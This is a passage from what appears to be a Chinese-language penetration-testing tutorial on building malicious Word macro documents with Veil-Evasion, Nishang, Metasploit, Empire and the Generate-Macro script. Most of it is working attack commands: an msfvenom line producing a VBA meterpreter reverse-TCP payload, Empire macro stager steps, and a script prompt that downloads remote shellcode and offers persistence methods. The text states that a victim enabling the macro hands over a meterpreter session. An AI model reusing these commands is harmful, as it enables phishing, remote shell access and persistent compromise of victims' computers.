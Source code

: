 ```
root@kali:~/Veil-Evasion# msfconsole -r /usr/share/veil-output/handlers/test_handler.rc

```

打开word文档会有此提示：

![Alt text](http://drops.javaweb.org/uploads/images/e1ed040a3c4544c6fe1115fb4a794332184cd872.jpg)

点击启用，则生成meterpreter会话。

![Alt text](http://drops.javaweb.org/uploads/images/3ed07fd6f28cd74defb26dc88759213811893891.jpg)

### 2、 Nishang

nishang的使用早在[《使用powershell Client进行有效钓鱼》](http://drops.wooyun.org/tips/8568)有所介绍，有兴趣的小伙伴可以再去看看。

### 3、 Metasploit

作为一个神器，Msf当然也可以生成VBA的后门文件，具体命令如下：

```
☁  ~  msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.2.100 lport=8888 -e x86/shikata_ga_nai exitfunc=thread -f vba > vcode.txt

```

### 4、 Empire

```
(Empire) > listeners
[!] No listeners currently active 
(Empire: listeners) > execute
(Empire: listeners) > usestager macro
(Empire: stager/macro) > set Listener test
(Empire: stager/macro) > set OutFile /tmp/macro.txt
(Empire: stager/macro) > execute

[*] Stager output written out to: /tmp/macro.txt

```

将代码写入宏，执行可成功返回会话：

![Alt text](http://drops.javaweb.org/uploads/images/3413bfae9c158b22b1a9ec64509acb13234e0e38.jpg)

### 5、 Scripts

```
☁  office  git clone https://github.com/enigma0x3/Generate-Macro.git

```

使用方式如下：

```
PS C:\Users\Evi1cg\Desktop> . .\Generate-Macro.ps1
Enter URL of Invoke-Shellcode script (If you use GitHub, use the raw version): https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-Shellcode.ps1
Enter IP Address: 192.168.2.111
Enter Port Number: 6666
Enter the name of the document (Do not include a file extension): Macro

--------Select Attack---------
1. Meterpreter Shell with Logon Persistence
2. Meterpreter Shell with Powershell Profile Persistence (Requires user to be local admin)
3. Meterpreter Shell with Alternate Data Stream Persistence
4. Meterpreter Shell with Scheduled Task Persistence
```